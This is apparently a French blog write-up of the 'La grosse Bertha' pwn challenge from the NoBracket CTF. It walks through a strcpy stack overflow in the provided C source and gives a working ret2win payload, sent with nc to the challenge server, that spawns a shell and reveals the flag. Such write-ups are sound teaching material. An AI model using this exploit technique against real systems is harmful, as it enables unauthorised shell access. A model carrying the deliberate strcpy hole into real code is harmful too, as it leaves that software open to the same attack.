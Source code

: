 ```yaml
---
layout: post
title: La grosse Bertha
subtitle: Write-Up pour le NBCTF
tags: [writeup, pwn, nbctf]
comments: true
---
```

Bonjour ! Voici mon write-up sur le challenge **La grosse Bertha** à l'occasion du NoBracket CTF. Il s'agit de mon troisième write-up, alors n'hésitez pas à aller voir les autres après avoir lu celui-là !
Je ne suis d'ordinaire pas très fan de pwn, mais j'ai apprécié faire ce challenge, qui m'a remis les basiques de l'exploitation de binaire en tête. Merci donc à `MaitreChiffon` pour cela. Mais sur ce, passons au write-up !

## Premier coup d'oeil
![Challenge](https://cdn.discordapp.com/attachments/822188888297963560/1175380527801454694/Capture_decran_34.png?ex=656b056b&is=6558906b&hm=7d97a060ac7f251fb39adc2b4cdca9cbd8389c70ad9209ee41ca16cd92c5bbb0&){: .mx-auto.d-block :}

Ce challenge dispose de deux fichiers, un binaire ainsi que le code source, écrit en C, de ce binaire. Enfin, une adresse en remote est fournie avec ce challenge, pour pouvoir réaliser le challenge à distance et ainsi avoir le flag. Mais regardons le code source fourni avant de nous atteler à l'exploitation.

## Identification de la vulnérabilité
Nous nous retrouvons donc avec un fichier `TheBigBertha.c`, dont voici le code source :
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>


void shell(){

    setreuid(geteuid(),geteuid());
    system("/bin/bash");
}


void foo(char *msg){

    char buf[64];
    puts("Delta Charlie. Ordre bien reçu.");
    strcpy(buf,msg);
    printf("La cible est : %s\n", buf);
}

void init() {
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
}

int main(int argc, char **argv)
{
    init();
    puts("Entrez la cible :");
    char input[512];
    fgets(input, 511, stdin);
    if(strlen(input) > 1)
    {
        foo(input);
    }
    else{
 	puts("Veuillez entrer une chaine de caractères.");
    }

    printf("Programme is exiting normally ! \n");
    return 0;
}
```

Nous avons 4 fonctions, intitulées `shell`, `foo`, `init` et `main`. La fonction `init` ne nous intéressera pas ici. Mais nous remarquons quelque chose. Une fonction n'est jamais appelée dans le programme, et il s'agit de la fonction `shell`, qui nous permet de faire spawn un shell ! Et donc sûrement de récupérer le flag ! Nous sommes donc sur ce qu'on appelle un ret2win, c'est-à-dire que nous allons chercher à exploiter ce programme pour appeler cette fonction. Mais regardons où se situe cette vulnérabilité.
Nous pourrions tout d'abord penser qu'elle se situe dans `main`, mais aucune fonction non-sécurisée n'est appelée. En effet, ici, `fgets` est la version sûre du traditionnel `gets`. Rien à faire donc ici, puisque `fgets` récupère uniquement 511 caractères de `stdin`. 

{: .box-note}
**Note:** Et pourquoi pas 512 caractères ? Tout simplement parce que le dernier caractère est réservé au caractère nul (le fameux `\0` !)

Par la suite, la variable `input` sera passée en argument à la fonction `foo`. Nous regardons donc cette fonction, toujours à la recherche d'une vulnérabilité. Et puis là, nous voyons le problème immédiatement.

![strcpy](https://cdn.discordapp.com/attachments/822188888297963560/1175385452811931648/86h1e0.jpg?ex=656b0a01&is=65589501&hm=6cd10817881fa0e1af5e06454f1dff5a885b08fa9e422cdd209bb6f0390ecca6&){: .mx-auto.d-block :}

Et oui ! Le `strcpy` ici permet un buffer overflow. Mais comment cela se fait-il ? Eh bien, tout simplement, une variable `input` peut faire au maximum 512 caractères, et nous avons un `strcpy` dans la variable `buf`... Qui fait au maximum 64 caractères. Donc là, c'est l'overflow.
Nous pouvons vérifier ça assez simplement.
```console
blackraven@blackraven:~$ python3 -c "print('A'*64)" | ./TheBigBertha
Entrez la cible :
Delta Charlie. Ordre bien reçu.
La cible est : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Programme is exiting normally !
```
Ici, tout marche. Mais si nous mettons une taille de 100...
```console
blackraven@blackraven:~$ python3 -c "print('A'*100)" | ./TheBigBertha
Entrez la cible :
Delta Charlie. Ordre bien reçu.
La cible est : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Segmentation fault
```
Nous avons l'erreur de segmentation ! What's next ? Passons à l'exploitation !

## Exploitation

Avant toute chose, nous devons regarder l'adresse de la fonction `shell`, afin de pouvoir écraser l'adresse de retour avec l'adresse de `shell`.
Un petit tour sur `gdb` (avec bien sûr `pwndbg` et pas `peda`) nous renseigne assez vite sur l'adresse de la fonction `shell`, dont la première instruction se situe à l'adresse `0x080491f6`.

{: .box-note}
**Note:** Il ne faudra pas oublier de mettre notre adresse en little endian ! Ce qui donnera `\xf6\x91\x04\x08` !

On continue notre roadtrip sur `gdb` pour voir le padding nécessaire pour écraser le registre `EIP` avec la valeur de retour de notre adresse. Un outil très pratique, nommé `cyclic`, va nous permettre de faire cela.
![gdb](https://cdn.discordapp.com/attachments/822188888297963560/1175418096203341855/Capture_decran_35.png?ex=656b2868&is=6558b368&hm=e5eb5a6ad597aabf5c434c57efbcb28d1f1c768443daad8286283ef594e333e1&){: .mx-auto.d-block :}

Comme vous pouvez le voir, cyclic indique ici un offset de 76. On teste donc avec cette offset en utilisant python2, et non pas python3 (ce dernier a tendance à faire n'importe quoi, ce qui fait que votre payload, même si il est juste, ne marchera pas).
```console
blackraven@blackraven:~$ python2 -c 'print "A"*76+ "\xf6\x91\x04\x08" ' | ./TheBigBertha
Entrez la cible :                                                                                                                                                                                               Delta Charlie. Ordre bien reçu.                                                                                                                                                                                 La cible est : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA                                                                                                                                                                                                                                                                                                                                     Segmentation fault
```
Et... il ne se passe rien. Est-ce qu'on a fait quelque chose de mal ? Non, ça ne se voit peut-être pas, mais notre payload marche. Un shell spawn, mais se referme immédiatement ! Il faut donc rajouter une commande, comme `cat`, permettant de garder le shell en vie.
On recommence donc :
```console
blackraven@blackraven:~$ (python2 -c 'print "A"*76+ "\xf6\x91\x04\x08" '; cat) | ./TheBigBertha
Entrez la cible :                                                                                                                                                                                               Delta Charlie. Ordre bien reçu.                                                                                                                                                                                 La cible est : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA                                                                                                                                                                                                                                                                                                                                     ls                                                                                                                                                                                                              TheBigBertha  TheBigBertha.c
```
Et ça marche ! Notre payload est fonctionnel en local, donc plus qu'à flagger en remote !
![meme](https://cdn.discordapp.com/attachments/822188888297963560/1175421284990066738/86h9ua.jpg?ex=656b2b60&is=6558b660&hm=5b128794bcb338703cd29fecddb422aa9dc73366ab70f1919606146ea6ab1442&){: .mx-auto.d-block :}

## Plus qu'à flag en remote !
Il ne nous reste plus grand chose à faire maintenant. On se connecte donc en remote à `thebigbertha.nobrackets.fr` sur le port `30343`.
```console
blackraven@blackraven:~$ (python2 -c 'print "A"*76+ "\xf6\x91\x04\x08" '; cat) | nc thebigbertha.nobrackets.fr 30343
Entrez la cible :                                                                                                                                                                                               Delta Charlie. Ordre bien reçu.                                                                                                                                                                                 La cible est : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA                                                                                                                                                                                                                                                                                                                                     ls                                                                                                                                                                                                              password.txt                                                                                                                                                                                                    pwn                                                                                                                                                                                                             cat password.txt                                                                                                                                                                                                NBCTF{4_M0r3_D1FF1CU17_0V3rF10W_66}                                                                                                                                                                             exit
```

On a notre flag : `NBCTF{4_M0r3_D1FF1CU17_0V3rF10W_66}` !
Comme quoi, ça a du bon de crier "AAAAAA" sur La Grosse Bertha.

![meme2](https://cdn.discordapp.com/attachments/811715744835567616/999765823356948520/hacker.png?ex=6568e7fb&is=655672fb&hm=8dc2cd9f820ac46f47c3965e792aa67804bb8d9e64eb2f523bb27e536c921c69&){: .mx-auto.d-block :}


## Conclusion

J'ai bien aimé ce challenge, que j'ai trouvé très sympa à faire étant donné que cela rappelle les basiques et la méthodo de l'exploitation de binaire. Un petit ret2win fort sympathique, qui ne présage que du bon pour les challenges de la finale !
